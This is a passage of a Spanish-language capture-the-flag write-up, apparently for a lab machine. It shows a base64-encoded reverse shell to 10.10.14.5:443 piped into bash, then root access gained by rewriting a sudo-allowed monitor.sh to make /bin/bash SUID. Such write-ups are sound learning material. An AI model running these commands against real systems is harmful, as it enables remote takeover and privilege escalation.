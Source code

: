 El cual *base64* encodeo y lanzo al servidor de la siguiente forma:

```bash
echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41LzQ0MyAwPiYxCg==' | base64 -d | bash
```

![image](https://user-images.githubusercontent.com/55555187/187652854-d96352c0-a91f-43a7-b3bd-530044a09904.png)

Lo que ha pasado es que el servidor ha descifrado la cadena de texto en *base64* y luego la ha pipeado a una *bash* haciendo que el comando se interprete.

## Escalada de privilegios

Una vez dentro de la máquina, compruebo si puedo ejecutar *sudo *en algún contexto y descubro que sí, que puedo ejecutar el archivo *monitor.sh* como root sin proporcionar credenciales:

<img src="https://user-images.githubusercontent.com/55555187/187653107-c7031100-ad93-4bb7-b282-ed3aa67bfd72.png" title="" alt="image" width="583">

Como tengo pleno acceso al archivo, creo un nuevo archivo *monitor.sh* que ejecuta el siguiente comando:

<img title="" src="https://user-images.githubusercontent.com/55555187/187653655-f580f23b-2f0f-4cc6-8a29-63227d79bd3b.png" alt="image" width="529">

```bash
chmod 4731 '/bin/bash'
```

Con ese comando lo que hago es darle permisos *SUID* a */bin/bash* como el usuario *root* lo que hace que pueda ejecutar *bash -p* como cualquier usuario logrando convertirme en root:

<img title="" src="https://user-images.githubusercontent.com/55555187/187656513-9c0919ff-1508-43d0-a04a-f2d243af67d4.png" alt="image" width="520">
